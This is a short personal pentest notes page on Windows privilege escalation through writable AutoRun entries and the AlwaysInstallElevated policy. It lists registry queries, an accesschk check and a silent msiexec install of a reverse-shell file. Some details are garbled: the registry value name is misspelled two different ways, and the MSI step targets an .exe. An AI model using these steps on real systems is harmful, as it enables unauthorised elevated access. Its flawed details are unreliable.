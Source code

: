 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### AutoRuns
- Startup apps or "AutoRuns" are configures in the registry.
- If the autoruns executable is wriable and we have the privilege to restart the system, we can place the reverse shell and restart the system to get a shell
```powershell
# Get a list of Autorun Programs
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Check for each binary using accesshck
.\accesschk -quv "C:\Program Files\program.exe"

# overwrite with reverse shell and restart the service
SHELL!
```

### AlwaysInstalledElevated
- MSI are installer files that are used to install application
- Runs with the permission of the user executing the file
- Windows allows for these installers to be run with elevated privileges.
- Two Registry requirements:
```powershell
"AllwaysInstallElevated" should be 0x1 for
# Local Machine
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
# Current User
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

# Can be queried using reg command
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AllwaysInstalledElevated

# Gerenerate payload with msi format

# install with msiexec
msiexec /quiet /qn /i reverse.exe
```